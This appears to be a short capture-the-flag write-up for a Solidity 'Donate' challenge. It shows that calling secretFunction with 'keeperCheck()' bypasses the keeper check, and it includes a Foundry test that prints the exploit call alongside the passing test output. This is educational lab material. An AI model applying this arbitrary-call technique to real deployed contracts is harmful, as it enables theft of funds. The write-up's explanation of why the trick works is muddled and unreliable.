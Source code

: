 ## Donate

1. In contract Donate.sol we need to call `keeperCheck()` and return `true` that can be done by simply calling `secretFunction()` with the argument as `keeperCheck()`.

2. The reason it can be done is because the `secretFunction()` calls a function from the address of self and another is just passing `keeperCheck()` as the hacker.

3. To solve this, I just copy paste the Contract in my foundry setup. 

4. Then copy the provided boilerplate of foundry test.

5. Change the import to correct `import "../src/Donate.sol";`

6. And add the `donate.secretFunction("keeperCheck()");` in my test file of foundry.

7. Run forge test.

```solidity
function testhack() public {
    vm.startPrank(hacker);
		// Hack Time
        donate.secretFunction("keeperCheck()");
    }

```

8. Test passes.

lavishq@earth:~/Desktop/POC /foundry_foundry
$ forge test
[⠊] Compiling...
[⠑] Installing solc version 0.8.0
[⠃] Successfully installed solc 0.8.0
[⠊] Compiling 22 files with 0.8.17
[⠔] Compiling 1 files with 0.8.0
[⠒] Solc 0.8.0 finished in 2.41s
[⠒] Solc 0.8.17 finished in 2.45s
Compiler run successful

Running 1 test for test/Donate.t.sol:donateHack
[PASS] testhack() (gas: 14586)
Test result: ok. 1 passed; 0 failed; finished in 3.86ms

Running 2 tests for test/Counter.t.sol:CounterTest
[PASS] testIncrement() (gas: 28334)
[PASS] testSetNumber(uint256) (runs: 256, μ: 27320, ~: 28409)
Test result: ok. 2 passed; 0 failed; finished in 14.56ms